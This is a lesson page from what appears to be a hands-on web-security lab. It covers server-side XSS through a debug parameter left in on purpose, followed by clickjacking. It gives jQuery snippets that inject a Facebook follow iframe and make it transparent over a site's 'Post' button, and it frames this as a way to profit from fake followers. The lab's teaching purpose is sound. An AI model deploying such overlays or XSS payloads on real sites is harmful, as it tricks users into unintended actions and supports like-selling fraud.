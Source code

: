 XSS 3 - Server Side XSS + Click jacking!
----------------------------------------

![image](img/Fav.png)

Are you ready? I have a secret to tell you..

Some companies add unsecured code for *debugging* purposes.

### Scavenger hunt!

Try to find the *debug* parameter! go over the code, and try your best to guess it, and see how it changes the system.

.. 

.

Found it? awesome! now for the fun part!

### Abuse it!

Use the vulnerability you just found to **inject a script file**, that will create this iframe:


```
 <iframe id="likeBtn" src="//www.facebook.com/plugins/follow.php?href=https%3A%2F%2Fwww.facebook.com%2Fdefcon&amp;width=61&amp;height=35&amp;colorscheme=light&amp;layout=button&amp;show_faces=false" scrolling="no" frameborder="0" style="border:none; overflow:hidden; width:61px; height:35px;" allowTransparency="true"></iframe>
```

### Make it pretty!

The code above is a "Facebook follow" button, and if you edit your javascript just right, and add the right CSS, you can make is transparent and place it **right on top** of the "Post" button.

> Hint: Add the like button to the page using `$('.timeline-input').append('....')`

> and make it transparent and place it over the `Post` button using some css: `$('#likeBtn').css({position:"relative", top:"10px", left:"10px", opacity:0.5})`

When a user will try and post a message, he/her will "follow" you page!

### Profit!
Facebook followers are a great resource and [worth a lot of money](https://boostlikes.com/facebook-likes)! companies that uses "click jacking" to sell *likes*.

[learn more here](http://www.slideshare.net/embyte/new-insights-into-clickjacking)


- - - 
#### Are we rich yet?
[NEXT!](07-XSS3-defence.md)